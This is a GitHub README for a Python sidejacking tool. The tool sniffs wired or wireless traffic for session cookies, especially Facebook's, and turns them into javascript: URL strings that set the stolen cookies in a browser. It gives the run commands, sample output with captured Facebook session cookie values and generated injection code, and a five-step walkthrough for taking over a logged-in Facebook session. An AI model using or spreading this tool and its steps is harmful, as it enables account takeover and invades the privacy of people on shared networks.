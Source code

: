 # A Simple sidejacking tool, using javascript cookie injection.

This software sniffs any interface for cookies, and generates javascript code that can be injected into any browser, by pasting it into the URL bar.

It comes accompanied by a script: `OSx10.6_monitorMode.py`, that is able to use the `airport sniff` feature present in OS X 10.6+, allowing the wireless device to be put in monitor mode. We are, thus, able to retrieve any cookie sent on the chosen wireless channel.

# Usage

To run the cookieJsInjection open a shell (e.g., bash) and execute the following command (cookieJsInjection requires scapy to run - http://www.secdev.org/projects/scapy/):

`./cookieJsInjection.py IFACE`

Where `IFACE` represents the network interface you wish to sniff on (e.g. eth0, wlan0, etc). 

If you supply the flag `-facebook`, it will only output facebook cookies, keeping track of the profiles captured in the session, and eliminating duplicate entries:

`./cookieJsInjection.py IFACE -facebook`

If you wish to run `cookieJsInjection` on a wireless device, and you are currently running OS X 10.6+, use `OSx10.6_monitorMode.py`:

    hybrid:py-cookieJsInjection diogomonica$ sudo python OSx10.6_monitorMode.py 9 -facebook
    [*] Starting scan on channel 9
    Capturing 802.11 frames on en1.
    # Found cookie for facebook user XXXXXXXX:
    c_user = XXXXXXXXX
    presence = DJ294237494BchADhA_2256.channel_22BsubA_5b1_5dBF294237772227WMblcMshfPBbloMbvtMctP294232437BsbPBtA_5b_5dBfAnullBuctMsA0QBblADacA69V294236729Z292BlcPBuoAD1454092337ADolA-1BflA_5b_5dBexpP294237495196QB1259338588ADolA-1BflA_5b_5dBexpZ295237551044QQBalAD1606900057ADiA0QQQQ
    xs = 24e156ef2ddf6d6911422b0a9825825f
    datr = 4VToPPIw60lKSa3qrFSFrlm1
    lu = ZBj64Z92UpiasQNnWbkzW32w
    sct = 1273830123
    x-referer = http%3A%2F%2Fwww.facebook.com%2F%3Fref%3Dlogo%23%2Fdiogo.monica%2Fposts%2F488456769644%3Fnotif_t%3Dfeed_comment
    [*] Javascript Injection code:
    javascript:void(document.cookie="c_user=XXXXXXXXX");void(document.cookie="wd=1280x840");void(document.cookie="e=n");void(document.cookie="presence=DJ294237494BchADhA_2256.channel_22BsubA_5b1_5dBF29432172227WMblcMsndPBbloMbvtMctP2943212437BsbPBtA_5b_5dBfAnullBuctMsA0QBblADacA69V294236729Z292BlcPBuoAD1454092337ADolA-1BflA_5b_5dBexpP29443432196QB1259338588ADolA-1BflA_5b_5dBexpP2942321553944QQBalAD1605400057ADiA0QQQQ");void(document.cookie="xs=54e156e028df6d6916232b0a9825825e");void(document.cookie="datr=1VTuTPOwDSg6xl3qrQFDrlm4");void(document.cookie="lu=TAj64Z02UpiSdFQNnWbkz2w");void(document.cookie="sct=1294230653");void(document.cookie="x-referer=http%3A%2F%2Fwww.facebook.com%2F%3Fref%3Dlogo%23%2Fdiogo.monica%2Fposts%2F488432169644%3Fnotif_t%3Dfeed_comment");

Remember to select the appropriate channel (in the example above, channel 9 was used).

# Example of Facebook sidejacking


1 - Run cookieJsInjection and wait for cookies to appear

    glow:py-cookieJsInjection hiperion$ sudo python cookieJsInjection.py en1 -facebook
    ... javascript:void(document.cookie="c_user=XXXXXXXXXX");void(document.cookie="wd=1280x616");void(document.cookie="presence=DJ293759043BchADhA_2256.channel_22BsubA_5b1_2c1LXXXXXXXXA5BF293757419186WMblcMsndPBbloMbvtMctMsbPBtA_5b_5dBfAnullBuctMsA0QBblADacA42V293758371Z416BlcA0AQ");void(document.cookie="cur_max_lag=20");void(document.cookie="act=1293757438495%2F1");void(document.cookie="L=20");void(document.cookie="datr=0fMcTTMFZZVhFiOJZvvO1pyO");void(document.cookie="locale=en_US");void(document.cookie="lu=TA3UCsI0Y6ezY6wydClUpeDw");void(document.cookie="sct=1293787415");void(document.cookie="W=1293757115");void(document.cookie="sid=3");void(document.cookie="xs=1e4d54055dbe34976a93d3a1fe574a19");void(document.cookie="x-referer=http%3A%2F%2Fwww.facebook.com%2F%23%2F");void(document.cookie="made_write_conn=1293751415");

2 - Copy the javascript code (begining with `javascript:`).

3 - Open the browser in facebook.com (make sure you are logged out of any accounts).

4 - Paste the javascript code into the URL bar (press enter)

5 - Go to facebook.com
                                       
#Background

More information on sidejacking - http://en.wikipedia.org/wiki/Session_hijacking